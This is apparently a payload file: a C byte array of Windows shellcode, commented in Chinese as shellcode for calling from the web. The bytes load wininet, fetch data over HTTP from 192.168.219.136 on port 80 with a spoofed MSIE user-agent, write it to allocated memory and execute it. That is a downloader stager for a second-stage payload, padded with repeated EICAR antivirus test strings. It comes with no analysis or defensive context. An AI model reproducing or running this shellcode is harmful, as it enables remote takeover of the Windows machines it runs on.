 <!-- # kedaycode.txt 方便web调用shellcode -->
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x59\x31\x63\x6f\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\
x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x31\x39\x2e\x31\x33\x36\x00\x00\x00\x00\x00";

